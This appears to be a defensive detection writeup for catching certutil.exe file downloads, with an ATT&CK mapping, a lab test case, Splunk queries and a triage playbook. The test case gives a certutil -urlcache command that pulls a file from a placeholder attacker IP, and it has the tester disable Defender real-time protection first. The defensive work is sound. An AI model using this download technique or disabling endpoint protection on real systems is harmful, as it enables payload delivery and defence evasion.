







# Detection 01 – Suspicious certutil file retrieval

### Purpose 
Detect potential file downloads using certutil.exe (common LOLBIN tradecraft)

### ATT&CK Mapping

ATT&CK: T1218.010 – Signed Binary Proxy Execution (certutil)

### Data Source 

| Source | Details |
|--------|---------|
| Sysmon | EventID 1 (Process Creation) |

---

### Test Case

Pull a harmless file from a remote server using certutil

Expected Result: File retrieved from server. Logs shown in Splunk

1. **On the attacker machine:** Allow a firewall rule for the port you will be using (If firewall is enabled)
```bash
sudo ufw allow 8001
```


2. Create a harmless file and start your http server
```bash
echo test > harmless.txt && python3 -m http.server 8001
```


3. **On the victim VM:** Disable real time protection so that defender doesn't block certutil here. It can be disabled through Windows Security -> Virtus & threat protection settings -> Manage Settings -> Toggle Real-Time protection off



4. Run the following command to retrieval the harmless file
```powershell
certutil -urlcache -split -f http://<attacker_ip>:8001/harmless.txt C:\Temp\harmless.txt
```
To find your attacker ip run `ip a` on your attacker machine





5. Check the /Temp directory to verify the file was downloaded



6. Use the SPL production rule below to verify the event was ingested into Splunk



7. Cleanup (Turn real-time protedction back on)



---

### SPL Detection Queries 

**Production Rule**
```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
Image="*\\certutil.exe"
| search CommandLine="*-urlcache*" OR CommandLine="*-split*" OR CommandLine="*-decode*" OR CommandLine="*http:*" OR CommandLine="*https:*"
| table _time host User Image CommandLine ParentImage ProcessId ProcessGuid
| eval detection_id="detection_01"
| eval detection_name="Certutil Abuse"
| eval tag="detection"
```
**Hunter Compnaion (Any Certutil execution)**
```spl
index=main sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
Image="*\\certutil.exe*"
| stats count by host User ParentImage CommandLine
| sort -count
```
---

### Notes:

- Windows defender will block the execution of certutil in this setting unless temporarily disasbled
- Defender also blocks execution when grabbing the file from localhost

### False Positives

- Rare testing/admin tasks

### Tuning

- Easiest mitigation is to ensure Defender is properly configured and running
- Whitelist trusted admin accounts/hosts
- Understand baseline certutil usage within your network -> refine query 
- Restrict detections to combined use of -urlcache with unexpected domains

### Quick Playbook
On detection:

1. Check the User field and correlate with whitelisted admin accounts
2. Check the file hash that was downloaded with virustotal, if a known malicious hash is detected -> Isolate host and Escalate.
3. Check for persistence or defense evasion (Defender changes, Other file downloads, dropped files, installs, registry changes) 
4. Ensure defender is enabled and configured proeprly

---

### Status

- Initial Test blocked by Defender
- Test verified with defender disabled
- Detection verified in Splunk
- Ready for production


